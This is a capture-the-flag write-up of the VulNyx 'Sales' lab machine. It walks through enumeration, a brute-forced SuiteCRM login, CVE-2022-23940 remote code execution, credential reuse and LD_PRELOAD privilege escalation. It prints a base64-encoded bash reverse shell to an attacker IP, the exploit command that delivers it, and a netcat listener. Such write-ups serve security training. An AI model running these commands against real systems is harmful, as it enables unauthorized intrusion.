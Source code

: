 ```yaml
---
title: VulNyx - Sales Writeup
date: 2025-06-05 12:08:00 +0530
categories: [Vulnyx, Writeups]
tags: [suitecrm, vhost, cve-2022-23940, ld_preload, credential_reuse, privesc, base64_shell, gobuster, wfuzz, intruder]
---
```


`Sales` is an easy difficulty linux box. This machine consists of brute-forcing a `SuiteCRM` login instance, using an authenticated RCE exploit to gain initial access, credential reuse, and finally privilege escalation by abusing the `sudo` privileges using `LD_PRELOAD`.

## Modifying /etc/hosts

```bash
❯ sudo nano /etc/hosts

192.168.25.14   sales.nyx
```

## Enumeration

### Nmap results

```bash
❯ nmap -p- sales.nyx   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.00057s latency).
Not shown: 44696 filtered tcp ports (net-unreach), 20837 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 47.30 seconds
```

```bash
❯ nmap -sC -sV -p 22,80 sales.nyx
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 11:18 EDT
Nmap scan report for sales.nyx (192.168.25.14)
Host is up (0.0024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:2c:11:05:8e:0a:ea:0b:df:52:60:ed:bf:b4:c2:92 (ECDSA)
|_  256 9d:5a:c5:8d:db:27:66:ca:35:30:05:1f:ad:25:40:3f (ED25519)

80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: AksisDesign
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds

```
As we can see we have OpenSSH running on port `22` and an Apache httpd server running on port `80`


### Directory Enumeration

### HTTP (80)
We couldn't find anything on the main webpage, i.e., `sales.nyx`. However we identified an email address which could possibly prove useful later on.

![image.png](/assets/img/sales_vulnyx/image%202.png)



Directory enumeration using GoBuster did not give us any fruitful results
```bash
❯ gobuster dir -u http://sales.nyx -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -e
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sales.nyx
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://sales.nyx/images               (Status: 301) [Size: 307] [--> http://sales.nyx/images/]
http://sales.nyx/css                  (Status: 301) [Size: 304] [--> http://sales.nyx/css/]
http://sales.nyx/js                   (Status: 301) [Size: 303] [--> http://sales.nyx/js/]
http://sales.nyx/fonts                (Status: 301) [Size: 306] [--> http://sales.nyx/fonts/]
http://sales.nyx/server-status        (Status: 403) [Size: 274]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

### Virtual Hosts (VHOSTS) Enumeration

```bash
❯ wfuzz -u "http://sales.nyx" -H "HOST: FUZZ.sales.nyx" -w subdomains-top1million-5000.txt --hl=9   
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sales.nyx/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000001:   200        387 L    1408 W     19489 Ch    "www - www"                                                                                                                                                               
000000072:   301        0 L      0 W        0 Ch        "crm - crm"                                                                                                                                                               

Total time: 2.589449
Processed Requests: 4989
Filtered Requests: 4987
Requests/sec.: 1926.664
```
While enumerating VHOSTS we discovered `crm.sales.nyx`  and added it to `/etc/hosts`

## crm.sales.nyx
We can see a login page for a SuiteCRM instance, which is an open-source Customer Relationship Management application.

![image.png](/assets/img/sales_vulnyx/image.png)

When testing open-source applications a simple trick that we can use to enumerate versions is to look for the presence of files that are frequently changed, like `README.md` and `CHANGELOG.md`. In some cases these file specifically mention the version of the application that is being run, and in other cases we can identify service versions by comparing file hashes of these files between releases.

![image.png](/assets/img/sales_vulnyx/image%201.png)

Version: SuiteCRM 7.12.4

`SuiteCRM 7.12.4` is vulnerable to `CVE-2022-23940` which allows Authenticated Remote Code Execution (RCE). [CVE-2022-23940 Exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-23940)


## Brute-force Login

We created a word list using cewl and performed a brute-force attack using `Burp Intruder` while specifying the username as `yuna.yoon`, which was extracted from the email identified previously.

```bash
❯ cewl -d 3 http://sales.nyx -w wordlist.txt
```

![image.png](/assets/img/sales_vulnyx/image%203.png)


![image.png](/assets/img/sales_vulnyx/image%204.png)

By filtering by length a valid credential was identified, i.e., `AksisDesign` and used to successfully log in.

![image.png](/assets/img/sales_vulnyx/image%205.png)

![image.png](/assets/img/sales_vulnyx/image%206.png)


Since we now have valid credentials we can attempt to use the exploit for `CVE-2022-23940`. We started off with encoding our reverse shell in Base64 to avoid any issues due to bad characters.

## Base64 reverse shell

```bash
❯ echo -n 'bash -i >& /dev/tcp/192.168.25.4/1337 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx
```

## Shell

```bash
❯ python3 exploit.py -h http://crm.sales.nyx -u yuna.yoon -p AksisDesign -P "echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI1LjQvMTMzNyAwPiYx | base64 -d | bash"
INFO:CVE-2022-23940:Login did work - Trying to create scheduled report
```

```bash
❯ nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.25.4] from (UNKNOWN) [192.168.25.14] 51750
bash: cannot set terminal process group (636): Inappropriate ioctl for device
bash: no job control in this shell
www-data@template:/var/www/suitecrm$ 
```

## Credential Exposure in config.php

```bash
www-data@template:/var/www/suitecrm$ cat config.php
```

![image.png](/assets/img/sales_vulnyx/image%207.png)

```bash
'db_user_name' => 'suitecrm',
'db_password' => 'Ev3*CRm_DBaS3',
```

## Credential reuse
We identified a user `eve` on the target VM, and assuming that credenitals were being reused we were successfully able to switch to the user `eve`.

![image.png](/assets/img/sales_vulnyx/image%208.png)

### User flag

![image.png](/assets/img/sales_vulnyx/image%209.png)

## Privilege Escalation

### linpeas.sh
 
![image.png](/assets/img/sales_vulnyx/image%2010.png)

Using `linpeas.sh` we identified that `/bin/ping` can be run as root without specifying a password and this can be exploited using `LD_PRELOAD`

![image.png](/assets/img/sales_vulnyx/image%2011.png)

### Root flag
![image.png](/assets/img/sales_vulnyx/image%2012.png)